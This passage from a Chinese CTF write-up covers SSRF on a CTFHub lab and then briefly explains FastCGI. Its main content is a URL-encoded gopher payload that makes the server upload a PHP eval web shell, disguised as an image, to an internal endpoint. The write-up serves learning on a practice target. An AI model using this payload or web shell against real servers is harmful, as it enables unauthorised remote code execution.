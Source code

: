 给出脚本 自动 替换和加上 %0d%0a

直接把bp抓的修改为127.0.0.1后的写入 然后跑即可

```cobol
gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A109.0%2529%2520Gecko/20100101%2520Firefox/118.0%250D%250AAccept%253A%2520text/html%252Capplication/xhtml%252Bxml%252Capplication/xml%253Bq%253D0.9%252Cimage/avif%252Cimage/webp%252C%252A/%252A%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D---------------------------23265606433349610851965678358%250D%250AContent-Length%253A%2520407%250D%250AOrigin%253A%2520http%253A//challenge-19841609aa2cc7a4.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A//challenge-19841609aa2cc7a4.sandbox.ctfhub.com%253A10800/%253Furl%253Dfile%253A///var/www/html/flag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250A%250D%250A-----------------------------23265606433349610851965678358%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%25221.jpg%2522%250D%250AContent-Type%253A%2520image/jpeg%250D%250A%250D%250AGIF89a%250D%250A%253Cscript%2520language%253D%2522php%2522%253E%250D%250A%2520%2520%2520%2520%2540eval%2528%2524_POST%255B%2527cmd%2527%255D%2529%253B%250D%250A%253C/script%253E%250D%250A-----------------------------23265606433349610851965678358%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522%25E9%258E%25BB%25E6%2584%25AA%25E6%25B0%25A6%2522%250D%250A%250D%250A%25E9%258E%25BB%25E6%2584%25AA%25E6%25B0%25A6%25E9%258F%258C%25E3%2583%25A8%25EE%2587%2597%250D%250A-----------------------------23265606433349610851965678358--%250D%250A
```

然后抓包

<img src="https://i-blog.csdnimg.cn/blog_migrate/3f56bc4c892453be143b2fc2b2d951b6.png" alt="" style="max-height:617px; box-sizing:content-box;" />


访问成功

### 总结

我们发现 ssrf 我们可以传递 需要的数据包 需要是值 我们就可以传递值 需要是文件

我们也可以传递文件

## FastCGI协议

 [Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写-CSDN博客](https://blog.csdn.net/mysteryflower/article/details/94386461) 

 [利用SSRF攻击内网FastCGI协议 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/263342.html) 

这个协议 我们在bypass disable_function中也学习过

其实就是 需要调用php文件的时候 web服务器通过 FasCGI协议传递给 php解释器

然后通过解释器返回值 再返回给用户

 [https://www.cnblogs.com/itbsl/p/9828776.html](https://www.cnblogs.com/itbsl/p/9828776.html) 

```objectivec
CGI 将读取到的http内容传入 环境变量 作为 标准输入 输入到 PHP 的 CGI程序
 
然后PHP的CGI程序 将返回值作为标准输出 返回给web服务器的 CGI并且转变为 http格式
```
